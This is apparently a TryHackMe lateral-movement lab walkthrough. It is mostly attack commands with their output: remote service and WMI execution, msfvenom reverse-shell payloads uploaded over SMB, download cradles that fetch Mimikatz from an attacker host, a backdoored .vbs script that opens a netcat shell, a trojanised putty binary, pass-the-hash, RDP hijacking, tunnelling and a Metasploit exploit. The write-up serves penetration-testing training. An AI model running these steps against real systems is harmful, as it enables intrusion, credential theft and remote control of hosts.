




## Introduction

### Request Credentials

Reverse DNS lookup and AXFR request doesn't work

> `/etc/hosts`

```bash
# THM STUFF
10.200.19.101 THMDC za.tryhackme.com THMDC.za.tryhackme.com
10.200.19.249 THMJMP2.za.tryhackme.com
10.200.19.201 THMIIS.za.tryhackme.com
10.200.19.202 distributor.za.tryhackme.com
```

```bash
http://distributor.za.tryhackme.com/creds
```

```bash
Your credentials have been generated: Username: arthur.campbell Password: Pksp9395
```

### Access machine

```bash
sshpass -p 'Pksp9395' ssh -o "StrictHostKeyChecking no" arthur.campbell@thmjmp2.za.tryhackme.com
```

## Moving Through the Network



## Spawning Processes Remotely

- Psexec
	- `psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe`
- Remote Process Creation Using WinRM
	- `winrs.exe -u:Administrator -p:Mypass123 -r:target cmd`
- Remotely Creating Services Using sc
	- Start
		- `sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto`
		- `sc.exe \\TARGET start THMservice`
	- Stop
		- `sc.exe \\TARGET stop THMservice`
		- `sc.exe \\TARGET delete THMservice`
- Creating Scheduled Tasks Remotely
	- Start
		- `schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00`
		- `schtasks /s TARGET /run /TN "THMtask1"`
	- Stop
		- `schtasks /S TARGET /TN "THMtask1" /DELETE /F`

### Using service

Host chisel

```bash
ln -s /opt/sectools/tunnel/chisel.exe .
python -m http.server 80
```

```bash
chisel server -p 81 --reverse -v
```

Access target:

```bash
sshpass -p 'EZpass4ever' ssh -o "StrictHostKeyChecking no" t1_leonard.summers@thmjmp2.za.tryhackme.com
```

Open socks proxy back to attacker's machine, then forward port `1111` listening on `THMJMP2`'s `0.0.0.0` ' to attacker's localhost on port `1111`

```bash
powershell -ep bypass
(new-object net.webclient).downloadfile("http://10.50.17.90/chisel.exe", "C:\programdata\chisel.exe")
C:\programdata\chisel.exe client 10.50.17.90:81 R:socks 0.0.0.0:1111:127.0.0.1:1111
```

Upload backdoor to `thmiis`

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting]
└─$ proxychains -q cme smb thmiis.za.tryhackme.com -u 't1_leonard.summers' -p 'EZpass4ever'
SMB         thmiis.za.tryhackme.com 445    THMIIS           [*] Windows 10.0 Build 17763 x64 (name:THMIIS) (domain:za.tryhackme.com) (signing:False) (SMBv1:False)
SMB         thmiis.za.tryhackme.com 445    THMIIS           [+] za.tryhackme.com\t1_leonard.summers:EZpass4ever (Pwn3d!)

┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting]
└─$ mkdir www && cd www

┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=lateralmovement LPORT=1111 -f exe-service -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe-service file: 15872 bytes
Saved as: rev.exe

┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ proxychains -q cme smb thmiis.za.tryhackme.com -u 't1_leonard.summers' -p 'EZpass4ever' --put-file rev.exe \\Windows\\Temp\\rev.exe
SMB         THMIIS.za.tryhackme.com 445    THMIIS           [*] Windows 10.0 Build 17763 x64 (name:THMIIS) (domain:za.tryhackme.com) (signing:False) (SMBv1:False)
SMB         THMIIS.za.tryhackme.com 445    THMIIS           [+] za.tryhackme.com\t1_leonard.summers:EZpass4ever (Pwn3d!)
SMB         THMIIS.za.tryhackme.com 445    THMIIS           [*] Copying shell.exe to \Windows\Temp\shell.exe
SMB         THMIIS.za.tryhackme.com 445    THMIIS           [+] Created file shell.exe on \\C$\\Windows\Temp\shell.exe
```

Make sure backdoor is uploaded

```bash
za\t1_leonard.summers@THMJMP2 C:\Users\t1_leonard.summers>dir \\thmiis.za.tryhackme.com\Admin$\Temp
 Volume in drive \\thmiis.za.tryhackme.com\Admin$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\thmiis.za.tryhackme.com\Admin$\Temp

07/03/2023  01:39 PM    <DIR>          .
07/03/2023  01:39 PM    <DIR>          ..
...
07/03/2023  01:39 PM            15,872 rev.exe
07/03/2023  12:23 PM                98 silconfig.log
06/22/2022  04:04 PM             1,702 WERA898.tmp.WERDataCollectionStatus.txt
06/22/2022  04:04 PM           142,844 WERBAFB.tmp.appcompat.txt
              12 File(s)        240,136 bytes
               7 Dir(s)  46,547,484,672 bytes free
```

Make sure firewall is disabled on `THMJMP2` to ensure listening on port `1111` works

```bash
za\t1_leonard.summers@THMJMP2 C:\Users\t1_leonard.summers>netsh firewall show state

Firewall status:
-------------------------------------------------------------------
Profile                           = Domain
Operational mode                  = Disable
Exception mode                    = Enable
Multicast/broadcast response mode = Enable
Notification mode                 = Disable
Group policy version              = Windows Firewall
Remote admin mode                 = Disable

Ports currently open on all network interfaces:
Port   Protocol  Version  Program
-------------------------------------------------------------------
No ports are currently open on all network interfaces.
```

Create a service and start on `thmiis.za.tryhackme.com`

```bash
sc.exe \\thmiis.za.tryhackme.com create BackDoorService binPath= "%windir%\Temp\rev.exe" start= auto
sc.exe \\thmiis.za.tryhackme.com start BackDoorService
```

Reverse Shell

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37294
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>C:\Users\t1_leonard.summers\Desktop\flag.exe
C:\Users\t1_leonard.summers\Desktop\flag.exe
THM{MOVING_WITH_SERVICES}
```

## Moving Laterally Using WMI

- Connecting to WMI From Powershell
- Remote Process Creation Using WMI
	- `wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe"`
- Creating Services Remotely with WMI
- Creating Scheduled Tasks Remotely with WMI
- Installing MSI packages through WMI
	- `wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi`

### Let's Get to Work!

Upload backdoor msi file

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.200.19.249 LPORT=1111 -f msi -o rev.msi
proxychains -q cme smb thmiis.za.tryhackme.com -u 't1_leonard.summers' -p 'EZpass4ever' --put-file rev.msi \\Windows\\Temp\\revs.msi
```

```powershell
powershell -ep bypass

$username = 't1_corine.waters';
$password = 'Korine.1994';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\Temp\rev.msi"; Options = ""; AllUsers = $false}
```

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35850
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>C:\Users\t1_corine.waters\Desktop\flag.exe
C:\Users\t1_corine.waters\Desktop\flag.exe
THM{MOVING_WITH_WMI_4_FUN}
```

## Use of Alternate Authentication Material

```bash
PS C:\Users\t2_felicia.dean> klist

Current LogonId is 0:0x221c60

Cached Tickets: (1)

#0>     Client: t2_felicia.dean @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 7/3/2023 14:52:05 (local)
        End Time:   7/4/2023 0:52:05 (local)
        Renew Time: 7/10/2023 14:52:05 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com
```

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ ln -s /opt/sectools/powershell/Invoke-Mimikatz/Invoke-Mimikatz.ps1 mimi.ps1
```

```bash
iex(new-object system.net.webclient).downloadstring('http://10.50.17.90/mimi.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate /domainadmin" "sekurlsa::logonpasswords" exit'
```



```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting]
└─$ proxychains -q wmiexec.py za.tryhackme.com/t1_toby.beck@THMIIS.za.tryhackme.com -hashes 00:533f1bd576caa912bdb9da284bbc60fe
Impacket v0.10.1.dev1+20230620.44942.4888172 - Copyright 2022 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands

C:\>%userprofile%\Desktop\flag.exe
THM{NO_PASSWORD_NEEDED}
```

## Abusing User Behaviour

### Abusing Writable Shares

- Crack Map Exec Modules
- ETC

### Backdooring .vbs Scripts

```vbscript
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

### Backdooring .exe Files

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

### RDP hijacking

> Remember to choose sessions that are inactive in real 

```bash
PsExec64.exe -accepteula -s cmd.exe
```

```bash
C:\> query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
 luke                                    3  Disc            .  4/6/2022 6:51 AM
```

```bash
tscon 3 /dest:rdp-tcp#6
```

### Let's Get to Work!

```bash
xfreerdp /u:t2_kelly.blake /p:8LXuPeNHZFFG /v:thmjmp2.za.tryhackme.com /size:1800x900 /cert:ignore
```

```bash
PsExec64.exe -accepteula -s cmd
```

```bash
C:\Windows\system32>query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
 t1_toby.beck                              2  Disc            7  7/3/2023 2:11 PM
 t1_toby.beck1                             3  Disc            6  7/3/2023 2:11 PM
 t1_toby.beck2                             4  Disc            6  7/3/2023 2:11 PM
 t1_toby.beck3                             5  Disc            6  7/3/2023 2:11 PM
 t1_toby.beck4                             6  Disc            6  7/3/2023 2:11 PM
 t1_toby.beck5                             7  Disc            6  7/3/2023 2:12 PM
 t2_kelly.blake        rdp-tcp#119         8  Active          .  7/3/2023 5:13 PM
```

```bash
tscon 2 /dest:rdp-tcp#119 
```



## Port Forwarding

### SSH Tunnel

Add user for tunneling only on linux

```bash
useradd tunneluser -M -s /bin/false
passwd tunneluser
```

- SSH Remote Port Forwarding
	- `ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N`
	- `xfreerdp /v:127.0.0.1 /u:MyUser /p:MyPassword`
- SSH Local Port Forwarding
	- `ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N`
	- Add firewall exclusion for port 80 `netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80`
- Dynamic Port Forwarding and SOCKS
	- `ssh tunneluser@1.1.1.1 -R 9050 -N`

### Let's Get to Work!

Do port forwarding with `Invoke-PortFwd.ps1`

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ ln -s /opt/sectools/powershell/Empire/lateral_movement/Invoke-PortFwd.ps1
```

```bash
powershell -ep bypass
iex(new-object system.net.webclient).downloadstring('http://10.50.17.90/Invoke-PortFwd.ps1')
netsh advfirewall firewall add rule name="Open Port 13389" dir=in action=allow protocol=TCP localport=13389
Invoke-PortFwd 0.0.0.0 13389 10.200.19.201 3389
```

```bash
xfreerdp /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020
```



> THM{SIGHT_BEYOND_SIGHT}

### Tunnelling Complex Exploits

```bash
C:\programdata\chisel.exe client 10.50.17.90:81 R:8888:thmdc.za.tryhackme.com:80 8081:127.0.0.1:8081 1111:127.0.0.1:1111
```

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
lhost => thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 1111
lport => 1111
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 8081
srvport => 8081
msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
rport => 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > excploit
[-] Unknown command: excploit
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 127.0.0.1:1111
[*] Using URL: http://thmjmp2.za.tryhackme.com:8081/C5fvRY
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /C5fvRY
[*] Sending stage (175686 bytes) to 127.0.0.1
[!] Tried to delete %TEMP%\dHEPu.vbs, unknown result
[*] Meterpreter session 1 opened (127.0.0.1:1111 -> 127.0.0.1:37034) at 2023-07-04 14:42:26 +0800
[*] Server stopped.

meterpreter > cat C:\hfs\flag.txt
[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter > cat "C:\hfs\flag.txt"
THM{FORWARDING_IT_ALL}
meterpreter >
```

## Conclusion

